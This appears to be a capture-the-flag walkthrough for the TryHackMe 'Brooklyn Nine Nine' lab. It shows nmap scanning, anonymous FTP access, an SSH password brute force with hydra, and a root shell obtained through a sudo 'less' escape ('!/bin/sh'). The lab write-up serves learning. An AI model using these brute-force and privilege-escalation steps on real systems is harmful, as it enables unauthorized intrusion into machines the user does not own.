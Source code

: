 ```yaml
---
description: Walkthrough (Easy)
---
```


# Brooklyn Nine Nine 🟢

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box

[https://tryhackme.com/r/room/brooklynninenine](https://tryhackme.com/r/room/brooklynninenine)  &#x20;

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

### Nmap Scan ( Reconnaissance )

```bash
nmap -T4 -sVC 10.10.30.120 -oN nmap 
```

**Found:**

* Anonymous FTP login
* SSH port is open

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

#### FTP  login

```bash
 ftp 10.10.30.120
 name : anonymous
 password : < press enter >
```

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

* Found note\_to\_jake.txt&#x20;

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

* Found a username : jake&#x20;
* Now Brute SSH using hydra

***

#### SSH login ( jake )

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.30.120
```

\-l -> username\
\-P -> password file

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

* Found Password : 987654321

***

### Getting user.txt

```bash
ssh jake@10.10.30.120 
```

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

* Found 3 users amy, holt, jake
* user.txt was in holt Folder

***

### Getting root.txt

```bash
sudo -l 
```

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

* jake user can run less with noPassword as a root user
* So visit [**GtfoBins**](https://gtfobins.github.io/gtfobins/less/) and find sudo code for less.

```bash
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

* add ' !/bin/sh ' at the end of file and press enter. Then you will be given root access

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>
